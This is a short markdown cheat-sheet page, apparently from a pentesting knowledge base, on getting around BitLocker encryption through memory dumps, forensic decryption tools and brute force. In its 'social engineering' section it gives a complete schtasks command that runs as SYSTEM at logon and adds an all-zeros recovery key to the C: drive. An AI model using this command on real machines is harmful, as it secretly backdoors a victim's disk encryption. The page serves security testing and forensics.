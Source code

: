 # 🔏 BitLocker

## Bypassing Bitlocker

>Bitlocker uses **2 passwords** : 
>- The one used by the user, 
>- The recovery password (48 digits). 
>
>Try to search for the recovery password in : **C:\Windows\MEMORY.DMP** (memory dump). 
>
>You can get this file and a copy of the filesytem and then use **Elcomsoft Forensic Disk Decryptor** to get the content (this will only work if the password is inside the memory dump). 
>
>You could also force the memory dump using **NotMyFault** of Sysinternals, but this will reboot the system and has to be executed as Administrator. 
>
>You could also try a **bruteforce attack** using *Passware Kit Forensic*.

### Check if enabled

```powershell
manage-bde -status
# powershell
Get-BitLockerVolume
```

### Social Engineering

Finally, you could make the user add a new recovery password making him executed as administrator:

```powershell
schtasks /create /SC ONLOGON /tr "c:/windows/system32/manage-bde.exe -protectors -add c: -rp 000000-000000-000000-000000-000000-000000-000000-000000" /tn tarea /RU SYSTEM /f
```

This will add a new recovery key (composed of 48 zeros) in the next login. To check the valid recovery keys you can execute:

```bash
manage-bde -protectors -get c:
```
